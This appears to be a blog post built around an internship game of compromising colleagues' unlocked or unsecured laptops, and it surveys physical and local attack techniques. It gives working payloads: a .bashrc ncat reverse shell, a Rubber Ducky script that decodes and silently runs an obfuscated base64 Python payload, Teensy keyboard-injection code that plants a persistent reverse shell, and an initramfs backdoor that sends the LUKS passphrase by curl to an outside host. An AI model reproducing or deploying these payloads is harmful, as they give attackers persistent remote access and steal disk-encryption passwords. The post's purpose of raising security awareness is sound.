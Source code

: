 ```yaml
---
layout: post
title: French Croissant - or why you need to lock your computer
---
```


Last year the first day of my internship I was given a computer and asked to install and secure it for two days. After that delay anyone can try to attack and compromise my machine, and if so I was welcome to buy some "French Croissants" to the team while the attacker explain his method to get access into your computer the next morning.
There are some techniques you need to be aware of when you're securing your machine, the list below is not exhaustive.

## Open session
When your colleague leave their computer without locking their session, it's time to go on their laptop and interact with it. In this scenario you can :
  - send an email to the team if he was logged into his mail account
  {% highlight plain%}
  To: team@company.com
  Subject: Croissant for all tomorrow
  {% endhighlight %}

  - if he was using Linux, you may want to keep a simple backdoor in order to do a privilege escalation and become a root user, the easiest way to achieve is to backdoor the .bashrc with a reverse-shell
  {% highlight bash%}
  ncat 192.168.1.2 4444 -e /bin/bash 2> /dev/null &
  {% endhighlight %}

## Written password
Maybe the most unskilled scenario, sometimes the user will write some interesting informations onto a paper sheet or a post-it, and leave it on their desktop. You can just grab the credential.    
![alt text]({{ site.baseurl }}/images/security-password-postit.jpg "Logo Title Text 1")

## Outdated components
The computer has to be updated, if your colleague doesn't do the regular patches you might be able to take advantages of this. Commonly you can target the Operating system e.g:Windows XP with MS08-067, or the Browser (Chrome/Firefox etc)

## Guest account
Sometimes the guest account is enable and allows you to get further access into the machine.
[LightDM (Ubuntu 16.04/16.10) - Guest Account Local Privilege Escalation](https://www.exploit-db.com/exploits/41923/)

## Debug components
Most of the times you can acces the debug application on the port 80 on the internal network if there is no filtering. Depending of the application you look for :
  - Common vulnerabilites (OWASP top 10)
  - Debug interface (Python Flask)

## USB Live ISO
When there is no bios password, it's easy to compromise the computer by booting with a Live USB / Live CD and adding the backdoor.

## Grub - Root access
Even if there is a bios password you still need to secure your Grub (boot-manager), otherwise anyone can edit it in order to start a root shell.

{% highlight bash%}
Press [SHIFT KEY] to get into grub2
Press [E] to edit the command line
Append init=/bin/sh
{% endhighlight %}

## USB : Rubber Ducky or Teensy
If you are willing to spend around 40$, you can buy a Rubber Ducky. This is a fake USB which will act as a keyboard and send any key to the plugged computer. The payload can be created within a notepad or online at https://ducktoolkit.com/.

The full documentation is available at [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

The following script was generated by DuckToolkit and serve a directory via HTTP
{% highlight bash%}
DEFAULT_DELAY 100
DELAY 3000
CTRL-ALT t
DELAY 200
STRING  printf '\e[3;1;1t'
ENTER
STRING  echo H4sIACBLCFoC/13OzwqDMAwG8HufIiDM9jAfYLD7joLei2hmC/1HGgXffh2dHpbTx0f4JdanSAwxC1tTPq7oN8c2UZwxZxtWIRZ8Qzq0YU5SPQSUibmbzWJJtq06i0Iwetmmg00McPcwFNHhaxz7AWlHAriVddEUUBskrDRtQU/OnfTf+a6vUfJEK/Lz94jqcilY1uvN16jipX0AB59ZiuMAAAA= | base64 --decode | gzip -d > environ-34314.py
ENTER
STRING  nohup python environ-34314.py > /dev/null 2>&1 &
ENTER
STRING  rm -rf environ-34314.py
ENTER
STRING exit
ENTER
{% endhighlight %}


Alternatively you can buy a Teensy board for 15$, it requires a little bit of configuration but it works as well
First, you need to install the arduino IDE, the Teensyduino and the rules for the Teensy board.
{% highlight bash%}
wget https://raw.githubusercontent.com/apmorton/teensy-template/master/tools/49-teensy.rules
mv 49-teensy.rules /etc/udev/rules.d/49-teensy.rules
wget https://www.pjrc.com/teensy/td_140/TeensyduinoInstall.linux64 && chmod +x ./TeensyduinoInstall.linux64 &&./TeensyduinoInstall.linux64
wget https://www.arduino.cc/download_handler.php
tar xvf arduino-1.8.5-linux64.tar.xz
{% endhighlight %}

The following code press the keys [ALT]+[F2], then write "xterm", followed by an echo into the user's .bashrc
{% highlight c%}
void setup() {

  delay(100);
  Keyboard.set_modifier(MODIFIERKEY_ALT);
  Keyboard.set_key1(KEY_F2);
  Keyboard.send_now();
  delay(100);

  Keyboard.set_modifier(0);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(100);

  Keyboard.println("xterm");
  delay(100);

  Keyboard.set_key1(KEY_ENTER);
  Keyboard.send_now();
  delay(100);

  // Reverse-shell stored in the bashrc
  Keyboard.println(" echo ' ncat 192.168.1.XX 4242 -e /bin/bash 2>/dev/null & clear' >> $HOME/.bashrc ");
  delay(100);

  // Now we clean our tracks
  Keyboard.println("exit");
  delay(100);
}

void loop() {
  delay(5000);
}
{% endhighlight %}
NOTE: When programming the board press the "RESET" button to avoid the launch of the payload on your computer

## Initramfs Backdoor - Encrypted Hard Drive
When you're booting there is one partition that is not encrypted in order to start. It will ask for your password and then decrypt and mount the other partition. If you have and access to the hard drive it is possible to replace the Initramfs.img in order to get the password to decrypt the full hdd, you can also wait for the decryption and then inject what you want inside a file as root :)

Mounting boot partition (not encrypted)
{% highlight bash%}
fdisk -l /dev/sda
mkdir /mnt/sda1
mount /dev/sda1 /mnt/sda1
{% endhighlight %}

Extracting initramfs-linux
{% highlight bash%}
cp /dev/sda1/initramfs-linux.img /tmp/initramfs-linux.img.gz
gunzip initramfs-linux.img.gz
cpio -i < initramfs-linux.img
{% endhighlight %}


Adding the backdoor and packaging back to a .img
{% highlight bash%}
vim /hooks/encrypt

backdoor line 78
echo -n "Enter passphrase for /dev/sda3: "
read -s mypass
echo -n $mypass | cryptsetup open --key-file - --type luks /dev/sda3 mymap
mkdir myfolder
mount /dev/mapper/mymap myfolder
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/user/.bashrc
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/root/.bashrc
umount myfolder
rmdir myfolder
cryptsetup close mymap


find . | cpio -o -H newc | gzip > ../test.img  
{% endhighlight %}
